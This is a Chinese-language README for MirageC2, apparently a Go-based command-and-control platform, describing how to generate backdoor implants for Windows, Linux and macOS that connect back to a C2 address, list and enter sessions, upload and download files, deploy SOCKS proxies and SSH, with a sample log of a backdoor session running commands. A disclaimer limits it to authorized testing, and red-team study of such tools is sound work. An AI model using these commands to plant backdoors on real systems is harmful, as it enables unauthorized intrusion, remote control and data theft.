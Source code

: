 # MirageC2
一款基于golang开发的C2平台，在后续的开发中，将陆续完善其功能。

# 安装方式
1. 在服务端，您的PC需要具备[golang](https://go.dev)的运行环境，用于生成木马。
2. go环境安装完毕后，运行run.bat或者run.sh会自动帮您安装服务端所需的库环境。

# 使用方式
本程序中使用到的所有的模块，例如创建后门、创建ssh、创建socks等都在您的电脑上进行，所以第一次运行这些指令的时候需要花上一定的时间，请耐心等待。

1. 运行可执行程序打开MirageC2服务器端。
```
> help:	输出帮助信息。
> create: 	通过Create参数来生成指定的Shell。例子: create <windows/linux/darwin> <C2IP:C2Port> <Save Path>
            [!] 注意如果使用create功能，您必须保证Server端拥有golang的运行环境。
> kill:		杀死指定的job或者session。例子：kill job <id>
> listen:  	在本地设置侦听的端口。例子: listen 127.0.0.1:8888
> show: 	[jobs,sessions]查看侦听的端口以及能够命令控制的会话。例如：show sessions
> session:	进入到指定会话中进行命令执行。例子: session <id>
```

2. Session会话中支持的指令。
```
> help:        输出帮助信息。
> show:        查看当前session中命令执行的列表。
> upload:      上传文件至目标服务器，例子：upload <LocalPath> <RemotePath>
> download:    下载目标服务器文件至本地，例子：download <RemotePath> <LocalPath>
> socks:       1. 部署代理功能，例子：socks <ReverseServerIP> <ServerPort> <ForwardPort>
               2. 控制目标主机连接代理服务器，例子：socks connect <ReverseServerIP>:<ServerPort>
> ssh:         1. 部署SSH功能，例子：ssh install
               2. 连接目标主机的SSH：ssh connect <SSHServerIP>
```

3. 使用案例
```
Mirage Control > listen 127.0.0.1:8888
[+] Jobs Set: listen ip 127.0.0.1:8888

Mirage Control > create darwin 127.0.0.1:8888 mirage
[+] 已经成功输出后门程序至指定的目录！
[!] 如果您还未进行侦听，请运行：listen 127.0.0.1:8888

Mirage Control >  
[+] Sessions 1 Online: 127.0.0.1:52056 -> 127.0.0.1:8888

Mirage Control > show sessions
[*] Job ID: "1", Client IP: "127.0.0.1:52057", Shell User: "deepmountains", Platform: "darwin", ProcessName: "mirage"

Mirage Control > session 1

Mirage Control -> Session1 > whoami
[+] Command ID: 0 
[-+] Result: --------------- 
deepmountains
[-+] Result: ---------------
Mirage Control -> Session1 > 
```

# 免责声明
本工具仅供合法用途使用，旨在帮助用户测试和评估其自身系统的安全性，以发现潜在漏洞并采取适当的补救措施。使用本工具前，您需仔细阅读并同意以下免责声明：
1. 合法使用：本工具应仅在您拥有合法授权的系统或网络上使用。任何在未经授权的情况下使用本工具对他人系统进行测试的行为，均被视为违法，并可能导致刑事或民事责任。
2. 责任限制：使用本工具所产生的一切后果由用户自行承担。开发者不对因使用本工具造成的任何直接或间接损失负责，包括但不限于系统崩溃、数据丢失或服务中断。
3. 禁止恶意用途：严禁将本工具用于任何形式的恶意活动，包括但不限于黑客攻击、数据窃取、破坏系统或绕过安全措施等。
4. 知法守法：用户需确保其使用行为符合所在国家和地区的法律法规。若因用户的非法使用行为引发任何法律纠纷，开发者概不负责。
5. 技术支持：本工具为“按现状”提供，开发者不保证其适用于任何特定用途或场景，也不承诺提供技术支持或更新。
